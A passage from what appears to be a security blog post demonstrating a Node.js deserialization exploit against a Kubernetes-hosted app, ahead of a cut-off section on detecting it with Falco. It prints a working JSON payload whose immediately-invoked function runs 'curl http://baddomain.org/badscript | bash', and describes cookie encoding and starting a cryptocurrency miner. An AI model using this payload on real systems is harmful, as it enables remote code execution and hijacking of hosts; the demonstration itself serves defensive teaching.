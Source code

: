     {"rce":"_$$ND_FUNC$$_function (){eval(require('child_process').exec('curl http://baddomain.org/badscript | bash', function(error, stdout, stderr) { console.log(stdout) }))}()"}

The IIFE can be identified by the last set of parens before the closing quote. When the payload is unserialized, the value returned by the function will be placed as the value of the JSON key. The last set of parens causes the function to execute immediately. For a more indepth look at IIFEs, you should read the <a href="http://benalman.com/news/2010/11/immediately-invoked-function-expression/" target="_blank" rel="noopener">blog post by Ben Alman</a> that helped define the term IIFE in Javascript.

## Packaging our App and Running on Kubernetes {#packagingourappandrunningonkubernetes}

Now that we have an application, we can package it and deploy it to Kubernetes. First we needed to package it as a container. We followed the <a href="https://nodejs.org/en/docs/guides/nodejs-docker-webapp/" target="_blank" rel="noopener">nodejs.org guide</a> on building a Docker image of our application and then we deployed the application to a Kubernetes cluster running in Google Kubernetes Engine. You can find the Dockerfile and the Kubernetes YAML we used in the <a href="https://github.com/mfdii/miner-blog" target="_blank" rel="noopener">Github repo</a> for this post.

We can verify the application is working by making a request. For this we'll use the tool <a href="https://install.advancedrestclient.com/#/install" target="_blank" rel="noopener">Advanced Rest Client (ARC)</a>, which will allow us to manipulate the headers later to execute our exploit.

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/safe-request-1024x648.gif" alt="Safe web request to a Node.js application" width="1024" height="648" class="aligncenter wp-image-6679 size-large" />][1]

## Verifying the Exploit {#verifyingtheexploit}

Now that our application is running we can verify if the application can be exploited to run commands on our container. To do this we want to encode the payload using the UTF-16 character code units, then we will base64 encode the payload so it can be passed in our request's cookie. This can be achieved by running the `nodejspayload.py` script (in the <a href="https://github.com/mfdii/miner-blog" target="_blank" rel="noopener">Github repo</a>) to generate the UTF-16 encoded payload, and piping the output to the `base64` command.

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/base64_payload-1024x602.gif" alt="base64 encoding a cookie payload to exploit a host" width="1024" height="602" class="aligncenter wp-image-6675 size-large" />][2]

With this payload, we can use ARC to send the payload as our cookie's profile value and verify if our application ran the encoded command as expected.

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/ls_exploit-1024x677.gif" alt="Running ls via a web request to a container" width="1024" height="677" class="aligncenter wp-image-6678 size-large" />][3]

From the logs of our Pod, we can see the encoded command, `ls -l /`, was successfully ran. Note that the attacker gets no output indicating that the attack was successful. Instead of running `ls`, the attacker could run `curl` against a URL under their control, and then verify in access logs that the request was received. With this exploit, it's very easy to encode a `curl | bash` command that would allow an attacker to take more control over the container.

[<img src="https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/exploited_w_miner-1024x588.gif" alt="exploiting an application and running a cryptocurrency miner" width="1024" height="588" class="aligncenter wp-image-6676 size-large" />][4]

We can see that we were able to inject the the payload with the `curl | bash` and start the miner.

## Detecting this Exploit with Falco {#detectingthisexploitwithfalco}


 [1]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/safe-request.gif
 [2]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/base64_payload.gif
 [3]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/ls_exploit.gif
 [4]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/exploited_w_miner.gif
 [5]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/falco_detecting.gif